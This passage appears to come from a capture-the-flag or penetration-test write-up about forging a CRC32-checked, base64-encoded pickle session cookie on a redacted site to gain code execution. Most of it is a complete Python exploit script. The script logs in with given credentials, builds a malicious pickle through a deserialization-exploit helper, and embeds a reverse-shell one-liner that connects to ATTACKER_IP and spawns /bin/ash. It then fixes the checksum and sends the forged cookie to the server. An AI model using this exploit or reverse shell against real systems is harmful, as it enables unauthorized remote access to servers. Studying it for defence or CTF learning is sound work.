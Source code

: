 At this point, I've figured out the hash at the end of the pickled data is a CRC32 one, as hinted by the ever-changing footer and its 4-byte nature. Now it is just a matter of figuring out how the hash was generated.

After analyzing for a while, it looks like the last 4-byte was indeed the pickled data CRC32 packed in little-endian.

```python
session_data = session.cookies['session_data']
pickled_session = base64.b64decode(session_data)
print("Pickle:", pickled_session)
assert pwn.pack(crc32(pickled_session[:-4]), endianness="little") == pickled_session[-4:]
```

{% capture notice-text %}

I spent an hour or two trying to figure out why my payloads weren't working. It turns out I missed 2 important factors:

1. The system was an Alpine Linux image; in a limited environment, this means `/bin/sh` or `/bin/bash` may or may not be available, especially the latter. The default shell that is shipped with Alpine is `ash`.
2. `python` wasn't working, as it should be `python3` these days.

{% endcapture %}

<div class="notice--warning">
  {{ notice-text | markdownify }}
</div>

Finally, the finished payload was the following:

> main\.py

```python
import requests, requests.cookies
import base64
import pickle, pickletools, pickle_exploit, pwn
from zlib import crc32

session = requests.Session()
session.get("https://ctn.<redacted>.com/login.php")
session.post("https://ctn.<redacted>.com/login.php", data={
    "username": "mercy",
    "password": "ycrem",
    "xsrf": session.cookies['xsrf_tkv']
})
session_data = session.cookies['session_data']
pickled_session = base64.b64decode(session_data)
print("Pickle:", pickled_session)
assert pwn.pack(crc32(pickled_session[:-4]), endianness="little") == pickled_session[-4:]
pickletools.dis(pickled_session)
payload = pickle_exploit.exploit([
    'python3',
    '-c',
    f'import sys,socket,os,pty;s=socket.socket();s.connect(("{ATTACKER_IP}", {ATTACKER_PORT}));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/ash")'
])
pickletools.dis(payload)
print("Payload:", payload)
processed = payload+pwn.pack(crc32(payload), endianness="little")
print("Payload with CRC32:", processed)
processed_cookie = base64.b64encode(processed).decode()
print("Payload with CRC32 (Base64):", processed_cookie)
session.cookies.set('session_data', processed_cookie)
get = session.get('https://ctn.<redacted>.com/user.php')
print("Server returned:", get.status_code)
```
